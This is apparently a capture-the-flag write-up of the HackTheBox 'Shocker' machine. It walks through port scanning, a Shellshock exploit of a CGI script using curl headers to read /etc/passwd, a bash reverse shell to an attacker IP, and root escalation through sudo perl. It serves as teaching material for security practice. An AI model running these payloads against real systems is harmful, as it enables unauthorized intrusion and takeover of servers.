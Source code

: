 ```yaml
---
layout: post
title:  "HackTheBox - Shocker"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027926-b71bb485-cab8-42b8-bff8-0a2bcf680799.png
beforetoc: ""
toc: false
tags: [ HTB, CVE, Linux ]
---
```


Linux machine easy level

# Table of Contents
1. [Enumeration](#enumeration)
2. [Explotation](#explotation)
3. [Privilege Escalation](#escalation)

---

## Enumeration: <a name="enumeration"></a>

**Ports:**
-  80 HTTP
-  2222 SSH

### Nmap

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

### Web Content

![WebImage](https://user-images.githubusercontent.com/47476901/123010578-c787b380-d3b6-11eb-8466-9993c71af83a.png)

Fuzzing with dirbuster we found a script in "/cgi-bin/user.sh"

![cgi-bin](https://user-images.githubusercontent.com/47476901/123010587-cbb3d100-d3b6-11eb-8473-e981b30a6ed3.png)

We found a very common vulnerability, which consists of exploiting the script in /cgi-bin/, known as "**shellshock**".
The text in the web image makes more sense.

I found this page that helps us to exploit it.

- <a href="https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit" target="_blank">Exploit Here</a>

## Explotation: <a name="explotation"></a>

Use the payload that worked:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

![TestRCE](https://user-images.githubusercontent.com/47476901/123010602-d2424880-d3b6-11eb-9489-3799f074775e.png)

Since the payload works for us, we took the opportunity to give ourselves a shell:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/bash -i >& /dev/tcp/10.10.14.12/1234 0>&1" 
```

And we listen in that port:

![RevShell](https://user-images.githubusercontent.com/47476901/123010615-d79f9300-d3b6-11eb-997d-138764b6f72c.png)

## Privilege Escalation: <a name="escalation"></a>

In the shelly directory we find the user flag:

![user txt](https://user-images.githubusercontent.com/47476901/123010625-dc644700-d3b6-11eb-9934-82663b902318.png)

The first thing we usually do is to look at what binaries we can run as root.
We found a command that can be run as root and we don't need a password for it.

![sudoers](https://user-images.githubusercontent.com/47476901/123010635-dff7ce00-d3b6-11eb-9e0e-7f6c608616e5.png)

Look at <a href="https://gtfobins.github.io/" target="_blank">gtfobins</a> so we can take advantage of it for scaling.

![gtfobins](https://user-images.githubusercontent.com/47476901/123010639-e38b5500-d3b6-11eb-9874-e34b9a2a6bd9.png)

Proceed to exploit it:

```bash
sudo perl -e 'exec "/bin/sh";'
```
![GettingRoot](https://user-images.githubusercontent.com/47476901/123010645-e8500900-d3b6-11eb-95a6-fab08f1b69c6.png)

We are root

![root txt](https://user-images.githubusercontent.com/47476901/123010650-ec7c2680-d3b6-11eb-8035-5f510a93a872.png)

**Machine Completed**
